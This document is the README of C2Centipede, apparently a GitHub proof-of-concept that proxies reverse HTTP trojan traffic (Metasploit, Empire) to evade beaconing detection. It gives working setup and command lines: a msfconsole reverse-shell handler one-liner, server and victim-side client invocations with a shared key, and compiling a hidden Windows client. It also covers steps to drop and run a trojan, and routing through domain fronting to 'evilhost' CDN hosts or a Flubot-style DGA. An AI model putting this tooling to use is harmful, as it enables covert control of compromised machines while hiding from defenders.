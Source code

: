 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 1)reducing the beaconing 2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.

## How does it work?
There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.

The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.

Additionally there is a GUI for the operator.

## Setup
git clone https://github.com/deepsight/C2Centipede
cd C2Centipede
#install required libraries, TODO make requirements.txt
git clone https://github.com/fatedier/frp


## Sample commands

### On the server
The server uses python3

1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.

2)Generate your meterpreter (with msfvenom), empire or other trojan pointing to localhost and the port specified on the -p argument you will use in the c2centipede client (in this case 2233)

3) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)

4)Set your RFP proxies and/or CDNs.

5)To tests FRP servers, add them to valid_frp_tcp_clean_unique.txt

### On the victim machine
The client uses python2 because _reasons_

1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.

Optionally, you can compile the client for windows using pyinstaller
wine pyinstaller.exe --onefile --noconsole c2c_client.py

2)Drop the c2centipede client script or executable and the trojan

3)Run the trojan

## Supported C2 routes

The C2 communication can be routed through many hosts. They can be setup when executing the c2centipede client with the -s or -t flags. 

Direct or connections through HTTP proxies (like FRP) can be specified as ip:port e.g. "-s 123.123.123.123:2222 222.333.45.23:80"

Domain fronting can be specified in the following format: -s fronted{hightrustdomain.com{evilhost.yourcdnprovider.com fronted{anotherdomain.com{evilhost.yourcdnprovider.com fronted{anotherhightrustdomain.com{evilhost.anothercdn.com

Flubot DGA can be used to bootstrap your C2 connection, the syntax is flubot{seed{numberofdomains{port
This is based on this great post: https://securityblog.switch.ch/2021/06/19/android-flubot-enters-switzerland/


## TODO
Treat this as alpha quality code, it's meant to be a PoC for beaconing evasion.
I have tested very basic functionality for doing C2 comms through webdav, so this might come later.
